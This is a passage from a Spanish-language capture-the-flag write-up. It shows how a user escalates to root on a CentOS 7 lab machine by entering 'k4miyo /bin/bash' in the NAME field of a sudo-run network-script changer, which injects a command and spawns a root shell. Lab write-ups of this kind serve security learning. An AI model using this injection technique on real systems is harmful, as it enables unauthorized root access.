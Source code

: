 ```bash
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=k4miyo
PROXY_METHOD=k4miyo
BROWSER_ONLY=k4miyo
BOOTPROTO=k4miyo
[guly@networked ~]$
```

Vemos que modifica los campos **NAME**, **PROXY_METHOD**, **BROWSER_ONLY** y **BOOTPROTO**. Si buscamos un poco en internet, nos encontramos el siguiente recurso [# Redhat/CentOS root through network-scripts](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) en el cual nos dice si el campo **NAME** ponemos cualquier cosa, un espacio y un comando, el comando se nos ejecutará, pero debemos estár en un Redhat/CentOS; vamos a validarlo.

```bash
[guly@networked ~]$ cat /etc/os-release 
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

[guly@networked ~]$ 
```

Tenemos lo necesario para convertirnos en **root**, así que vamos a ejecutar nuevamente el script:

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
k4miyo /bin/bash
interface PROXY_METHOD:
k4miyo
interface BROWSER_ONLY:
k4miyo
interface BOOTPROTO:
k4miyo
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
